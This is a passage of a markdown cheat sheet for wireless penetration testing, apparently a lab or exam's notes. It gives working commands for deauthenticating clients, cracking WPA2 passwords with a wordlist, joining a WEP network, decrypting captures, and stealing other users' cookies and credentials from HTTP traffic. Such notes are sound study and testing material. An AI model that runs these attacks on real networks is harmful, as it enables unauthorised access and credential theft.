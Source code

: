     sudo kill {pid}  // 2nd column
   ```
5. check ap ip ``` arp -a ```

### Sniff user/pwd
1. dump ``` sudo airodump-ng {wifi interface that connected to that AP} -w dump.cap --manufacturer --wps --band abg ``` [e.g. using wlan2 then dump with wlan2]
2. sniff http ``` wireshark dump.cap ```
3. search http if found portal pw


## WEP
- besside-ng NOT ALLOWED
- Try all the attacks
1. https://reconshell.com/wireless-pentesting-cheat-sheet/
- Target client not the host when runnning besside-ng
1. prepare wep.conf
    ```
    network={
        ssid="$ESSID"
        key_mgmt=NONE
        wep_key0=11BB33CD55
        wep_tx_keyidx=0
    }

    ```
2. ``` sudo wpa_supplicant -D nl80211 -i wlan2 -c wep.conf ```
3. ``` sudo dhclient wlan2 -v ```


## WPA2 PSK
### Get AP password
1. ``` airodump-ng wlan0mon -w ./ -c 6 --wps ```
   in parrell run: 
   ``` aireplay-ng -0 10 -a $BSSID wlan0mon ```
2. Crack ``` aircrack-ng ./scan-01.cap -w /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt ```
3. Get password by selecting index

### Locate ip of the AP web server (not necessarry)
1.  ``` airdecap-ng -e wifi-mobile -p starwars1 ./scan-01.cap ```
2.  Double click the xxx-dec.cap

### Login portal
1. psk.conf 
    ```
        network={
        ssid="wifi-mobile"
        psk="$PASSWORD"
        scan_ssid=1
        key_mgmt=WPA-PSK
        proto=WPA2
    }
2. stealing cookie/credentials from ```xxx-dec.cap (filter http post if have login history)``` from other user to login portal
3. ``` sudo wpa_supplicant -Dnl80211 -iwlan3 -c psk.conf ```
4. ``` sudo dhclient wlan3 -v ```

### locate other clients and web server
1. ``` sudo arp-scan -I wlan3 -l ```


## WPA2 PSK (not visible)
1. prepare hostapd.conf
   ```